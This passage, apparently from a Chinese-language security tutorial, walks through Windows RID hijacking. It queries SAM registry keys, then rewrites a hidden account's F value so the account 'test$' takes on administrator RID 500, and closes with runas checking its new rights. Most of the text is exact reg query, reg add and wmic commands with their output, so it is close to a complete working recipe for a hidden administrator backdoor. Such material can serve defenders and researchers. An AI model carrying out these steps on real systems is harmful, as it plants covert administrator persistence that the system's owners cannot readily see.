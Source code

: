 命令行获取。

```bash
PS C:\Users\gbb> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 /v F

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4
F    REG_BINARY    0300010000000000000000000000000000000000000000000000000000000000FFFFFFFFFFFFFF7F0000000000000000F401000001020000110200000000000000000000010000000000000000000C00
```

有了管理员 SID 后，查询影子用户 test$ 的 RID 位置。

```bash
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ /z

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$
    (默认)    REG_NONE (1004)

PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC /z /v F

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC
    F    REG_BINARY (3)    030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000EC03000001020000100000000000000000000000000000000000000000000000
```

直接把用户 test$ 的 RID 值 03 EC 替换成 01 F4 即可。这在数据中顺序是 F401，为了方便展示我做了换行输出。

```bash
030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000
F401
000001020000100000000000000000000000000000000000000000000000
```

命令行直接替换。

```bash
PS C:\Users\123> reg add HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC /v F /d 030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000F401000001020000100000000000000000000000000000000000000000000000 /t REG_BINARY /f
操作成功完成。
```

为了确认 RID 是否更改成功，先查询用户 test$ 的 SID，发现还是 1004。

```bash
C:\Users\123>wmic useraccount where (name='test$') get name,sid
Name   SID
test$  S-1-5-21-2973696153-3313763339-1684698060-1004
```

但是用 test$ 用户启动终端查询自己 RID，确实是 500，也有权限向系统盘写文件。

```bash
PS C:\Users\123> runas /user:test$ cmd
输入 test$ 的密码:
试图将 cmd 作为用户 "DESKTOP-AKRQV41\test$" 启动...
```
